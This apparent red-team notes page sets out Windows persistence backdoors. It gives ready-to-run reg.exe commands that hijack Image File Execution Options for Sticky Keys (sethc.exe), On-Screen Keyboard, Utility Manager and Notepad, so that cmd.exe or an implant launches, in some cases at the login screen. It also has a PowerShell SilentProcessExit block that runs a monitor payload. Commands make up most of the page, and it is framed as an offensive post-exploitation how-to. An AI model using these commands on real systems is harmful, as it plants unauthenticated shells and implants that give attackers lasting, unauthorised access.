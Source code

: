 ```yaml
---
author(s):
  - Userware
tags:
  - post-exploitation
  - maintaining-access
  - persistence
  - living-off-the-land
  - T1015
  - windows
---
```

# Living off the Land

## Sticky Keys

> [!INFO] Shortcut Key
> To trigger the backdoor hit `SHIFT` 5 times

### Command Prompt

For legacy operating systems below Windows 7 and Windows 2008 R2

```
C:\> reg.exe add "[\\<IP>\]HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\sethc.exe" /t REG_SZ /v Debugger /d "C:\windows\System32\cmd.exe" /f
```

For modern operating systems

```
C:\> reg.exe add "[\\<IP>\]HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Image File Execution Options\sethc.exe" /v Debugger /t REG_SZ /d "C:\windows\System32\cmd.exe" /f
```

### PowerShell

TODO: Convert the commands to cmdlets

For legacy operating systems below Windows 7 and Windows 2008 R2

```
C:\> reg.exe add "[\\<IP>\]HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\sethc.exe" /t REG_SZ /v Debugger /d "C:\windows\System32\cmd.exe" /f
```

For modern operating systems

```
C:\> reg.exe add "[\\<IP>\]HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Image File Execution Options\sethc.exe" /v Debugger /t REG_SZ /d "C:\windows\System32\cmd.exe" /f
```

## Accessibility On-Screen Keyboard

### Command Prompt

For legacy operating systems below Windows 7 and Windows 2008 R2

```
C:\> reg.exe add "[\\<IP>\]HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\osk.exe" /v Debugger /t REG_SZ /d "C:\windows\System32\cmd.exe" /f
```

For modern operating systems

```
C:\> reg.exe add "[\\<IP>\]HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Image File Execution Options\osk.exe" /v Debugger /t REG_SZ /d "C:\windows\System32\cmd.exe" /f
```

### PowerShell

TODO: Convert the commands to cmdlets

## Utility Manager

> [!INFO] Shortcut Key
> To trigger the backdoor hit `Win + U`

### Command Prompt

For legacy operating systems below Windows 7 and Windows 2008 R2

```
C:\> reg.exe add "[\\<IP>\]HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\utilman.exe" /t REG_SZ /v Debugger /d "C:\Windows\System32\cmd.exe" /f
```

For modern operating systems

```
C:\> reg.exe add "[\\<IP>\]HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Image File Execution Options\utilman.exe" /v Debugger /t REG_SZ /d "C:\windows\System32\cmd.exe" /f
```

### PowerShell

TODO: Convert the commands to cmdlets

## Notepad

### Command Prompt

For legacy operating systems below Windows 7 and Windows 2008 R2

```
C:\> reg.exe add "[\\<IP>\]HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\notepad" /v Debugger /d "C:\path\to\implant.exe" /f
```

For modern operating systems

```
C:\> reg.exe add "[\\<IP>\]HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Image File Execution Options\notepad" /v Debugger /d "C:\path\to\implant.exe" /f
```

### PowerShell

TODO: Convert the commands to cmdlets

## SilentProcessExit

### Batch

```

```

### PowerShell

```powershell
$monitoredApp = "notepad.exe"
$monitor = "powershell -c calc.exe #"

New-Item -Force -Path "HKLM:\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\$monitoredApp" | Out-Null
Set-ItemProperty -Path "HKLM:\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\$monitoredApp" -Name GlobalFlag -Value 512

New-Item -Force -Path "HKLM:\SOFTWARE\Microsoft\Windows NT\CurrentVersion\SilentProcessExit\$monitoredApp" | Out-Null
Set-ItemProperty -Path "HKLM:\SOFTWARE\Microsoft\Windows NT\CurrentVersion\SilentProcessExit\$monitoredApp" -Name ReportingMode -Value 1
Set-ItemProperty -Path "HKLM:\SOFTWARE\Microsoft\Windows NT\CurrentVersion\SilentProcessExit\$monitoredApp" -Name MonitorProcess -Value $monitor
```

---
## References

### LOFLCAB

- [LOFLCAB: reg](https://lofl-project.github.io/loflcab/Binaries/reg/)

### Persistence Info

- [Persistence Info: Image File Execution Options](https://persistence-info.github.io/Data/ifeo.html)

- [Persistence Info: Monitoring Silent Process Exit](https://persistence-info.github.io/Data/silentexitmonitor.html)

### Red Team Notes

- [Red Team Notes: Sticky Keys](https://www.ired.team/offensive-security/persistence/t1015-sethc)

### DoublePolsar

- [RDP hijacking - how to hijack RDS and RemoteApp sessions transparently to move through an organisation](https://doublepulsar.com/rdp-hijacking-how-to-hijack-rds-and-remoteapp-sessions-transparently-to-move-through-an-da2a1e73a5f6)